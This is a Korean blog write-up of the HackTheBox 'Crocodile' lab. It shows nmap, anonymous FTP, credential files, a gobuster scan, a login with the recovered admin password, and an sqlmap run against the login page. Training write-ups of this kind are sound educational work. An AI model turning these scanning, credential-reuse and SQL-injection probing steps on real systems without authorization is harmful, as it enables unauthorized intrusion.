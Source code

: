 ```yaml
---
title: HTB Crocodile Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
image:
    path: /assets/image_post/20240207111948.png
---
```


이번 문제 역시 nmap으로 먼저 스캔을 해보자. 스캔할때는 기본적으로 `-sC`와 `-sV`를 붙이는게 좋을 것 같다.
``` bash
 read-min 🎉   ~  nmap -sV -sC 10.129.1.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 18:01 KST
Nmap scan report for 10.129.1.15
Host is up (0.27s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
902/tcp  filtered iss-realsecure
1061/tcp filtered kiosk
1071/tcp filtered bsquare-voip
1130/tcp filtered casp
1185/tcp filtered catchpole
7741/tcp filtered scriptview
8701/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.08 seconds
```
위와 같이 결과를 얻었는데 흥미로운 부분이 벌써 보인다. ftp login 허용과 관련된 부분이 보인다.
``` bash
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

```

ftp 접속 후 존재하는 파일을 다운로드하였다.
``` bash
 read-min 🎉   ~  ftp 10.129.1.15

Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:km): anonymous
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

다운로드한 파일의 내용은 각각 아래와 같다.
``` bash
 read-min 🎉   ~  cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
 read-min 🎉   ~  cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

계정에 대한 정보는 획득한 것 같은데, 어디에 사용할지 알 수 없다. 우선 80 port에 http 서비스가 존재하여 gobuster로 스캔하였다.
``` bash
# gobuster dir -u http://10.129.1.15 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/.htaccess            (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
```

기본적으로 아래와 같이 별도의 로그인 화면은 존재하지 않지만, 스캔 결과를 보면 `config.php`, `login.php` 등이 있는 것을 알 수 있다.
![](../assets/image_post/20240204181658.png)

config.php는 접근해도 별 다른 정보가 없는 페이지이다. 대신 login.php 접근 시 아래와 같이 로그인 폼이 존재하는 것을 확인할 수 있다.
![](../assets/image_post/20240204181904.png)

이전에 획득한 admin 계정의 암호로 로그인 시 성공적으로 flag 획득이 가능하다.
![](../assets/image_post/20240204182420.png)

문제 풀이 완료 후 로그인 페이지에 대해 sql injection이 가능한지 확인해보고 싶었다. 그래서 이전에 사용한적 있는 sqlmap을 이용해보았다. 스캔 시간이 꽤 오래 걸렸지만, 별도로 나온 결과는 없다.
``` bash
sqlmap -u "http://10.129.44.43/login.php" --batch --risk=3 --level=5 --dbs
```

![](../assets/image_post/20240204182452.png)